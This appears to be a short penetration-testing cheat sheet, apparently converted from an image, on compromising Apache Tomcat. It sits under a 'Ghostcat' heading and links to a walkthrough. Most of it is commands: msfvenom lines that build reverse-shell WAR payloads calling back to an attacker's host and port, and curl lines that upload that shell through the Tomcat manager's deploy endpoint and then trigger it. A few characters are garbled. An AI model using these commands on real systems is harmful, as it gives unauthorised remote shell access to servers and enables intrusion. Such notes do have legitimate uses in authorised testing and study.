 # Apache Tomcat

## Ghostcat
/manager/
/manager-gui/
Upload should not necessarily require username and password
```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=[IP] LPORT=[PORT] -f war -o shell.war
# OR
msfvenom -p java/jsp_shell_reverse_tcp LHOST=[IP] LPORT=[PORT] -f war -o shell.war
# the FILE.jsp is catable in the .war shell 
curl -u '[USERNAME]:[PASSWORD]' --upload-file shell.war "http://$IP:8080/mana ger/text/deploy?path=/shell"
# Check the file
curl -u '[USERNAME]:[PASSWORD]' "http://$IP:8080/shell/$FILE.jsp
```

[Apache Ghostcat](https://medium.com/@sushantkamble/apache-ghostcat-cve-2020-1938-explanation-and-walkthrough-23a9a1ae4a23)